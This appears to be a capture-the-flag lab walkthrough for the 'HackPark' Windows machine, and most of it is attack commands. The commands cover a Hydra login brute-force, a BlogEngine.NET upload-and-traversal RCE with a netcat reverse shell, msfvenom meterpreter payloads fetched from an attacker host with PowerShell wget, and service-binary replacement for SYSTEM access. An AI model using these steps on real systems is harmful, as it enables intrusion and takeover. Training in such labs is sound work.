 # HackPark

### **Tasks**:

1. **Deploy the vulnerable Windows machine**:
   1. Deploy the machine do usual nmap scan with `nmap --script=vuln -T5 -sV ip` ,port 80,3389 open. Visit ip in browser , do reverse image search of image displayed and submit answer.
2. **Using Hydra to brute-force a login**:
   1. Go to login page , enter dummy username and password and send request to repeater in burp.
   2. Attack login page using `hydra hydra -l admin -P /usr/share/wordlists/rockyou.txt ip http-post-form "PATH_TO_LOGIN:POSTDATA REPLACE USERNAME/PASSWORD WITH ^USER^/^PASS^:STRING IN FAILED LOGIN PAGE"` - 1qaz2wsx
3. **Compromise the machine**:
   1. Login using password cracked above, there is about page in admin which displays BlogEngine.NET v3.3.6.0 is used, Use searchsploit for exploits.
   2. `searchsploit blogengine 3.3.6 remote` - Get RCE vulnerability id and run `searchsploit -x 46353` to get CVE details. Copy the exploit code to root directory `cp "/root/Desktop/Additional Tools/searchsploit/exploits/aspx/webapps/46353.cs" .` and change attacker ip and port in the script.
   3. Go to create new post, open file manager icon and upload the script after renaming it to PostView.aspx as per the information and publish the post.
   4. Start netcat listener in attacker machine port 4445 and open http://ip/?theme=../../App\_Data/files in browser to get shell in netcat session.
4. **Windows Privilege Escalation**:
   1. Start metasploit listener using msfconsole `use /exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST ATTACKERIP`, `set LPORT ATTACKERPORT` & `run`
   2. Generate payload for windows using `msfvenom - msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKERIP LPORT=4446 -e x86/shikata_ga_nai -f exe -o shell.exe` and start python http server in attacker machine , upload the shell using `powershell -c wget "http://ATTACKERIP:8080/shell.exe" -outfile "shell.exe"` in victim machine and run `shell.exe` in victim machine to get meterpreter session.
   3. `upload `[`winpeas.exe`](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe) using meterpreter shell , `shell` to get cmd, `winpeas.exe servicesinfo` to know if we could exploit any services - WindowsScheduler, File Permissions: Everyone \[WriteData/CreateFiles], WService.exe is service binary we need to exploit but it gives error when submitted , Go to event logs(hint) `cd "C:\Program Files (x86)\SystemScheduler\Events"` and `type 20198415519.INI_LOG.txt` - Message.exe is the answer.
   4. Generate another malicious exe with name Message.exe and start another meterpreter listener at 4447. `upload Message.exe` to C:\Program Files (x86)\SystemScheduler - You will get system shell when Message.exe is run by WindowsScheduler service next time.
   5. Run `shell` , `type C:\Users\jeff\Desktop\user.txt`, `type C:\Users\Administrator\Desktop\root.txt` to get cmd, user and root flag & submit !!!
5. **Privilege Escalation Without Metasploit**:
   1. Instead of meterpreter listener we can use netcat as listener and set payload in msfvenom to windows/shell\_reverse\_tcp.
   2. You can host winpeas.exe using python and download into victim machine or download binary/bat from internet directly using powershell and wget and execute winpeas .
